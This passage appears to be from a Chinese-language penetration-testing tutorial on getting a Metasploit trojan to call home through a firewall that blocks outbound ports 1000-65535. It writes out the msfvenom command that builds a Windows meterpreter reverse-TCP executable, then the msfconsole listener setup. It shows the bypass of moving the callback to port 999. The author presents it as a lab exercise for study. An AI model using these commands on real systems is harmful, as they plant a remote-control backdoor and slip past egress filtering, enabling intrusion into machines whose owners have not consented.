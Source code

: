## 限制端口上线

在一些情况下，管理员是把一些无用的端口关闭，或者说开放一些白名单端口让一些授权的来通信，这里我们将对端口限制进行测试，测试环境毕竟是自己搭建的，而在真实的环境中多多少少会存在一些不同，所以也是仅作参考。

未演示的绕过方式，参考`3.1常见的绕过方式`自学操作，否则需要写的太多了。

### 设置出站端口规则

至于设置规则这里我就不细说设置的流程了，我们先提前说一下背景，我们使用5555端口的马，而在主机上是禁止1000-65535端口对外通信的，那么我们就可以使用替换端口来通信。

通过下图可以看到我们是设定了一个禁止TCP协议1000-65535端口对外通信的规则。

![image-20230515134753417](https://s2.loli.net/2023/05/16/D54pdGekfmFIhJa.png)

### MSF生成木马

这里我们利用MSF生成一个木马。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT=5555 -f exe > msf.exe
```

![image-20230515135332817](https://s2.loli.net/2023/05/16/Dl9aJLFjZv15XNY.png)

### MSF开启监听

```
msfconsole 
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 192.168.10.20 
set LPORT 5555 
run
```

![image-20230515135647348](https://s2.loli.net/2023/05/16/LYauxjBIeVz4kby.png)

### 上传并运行木马

这里如果谁问木马是如何上传上去的，那我也不知道该如何向你解释了。

![image-20230515135832424](https://s2.loli.net/2023/05/16/yoOWiRADL8TZQBJ.png)

### 查看状态

可以看到执行完木马后，并未建立连接，就证明阻止成功了，那么像这个就很简单，你去替换一个端口即可上线，比如这里我替换一个999端口。

![image-20230515141018758](https://s2.loli.net/2023/05/16/ATVko8c9znYXdKW.png)

### 替换端口后状态

这里可以看到替换完端口后，就成功上线了，这里有人感觉好像很简单，但是可能在实际的情况中，不会那么简单只是封禁端口绕过即可这种情况，更多的可能是封禁协议。
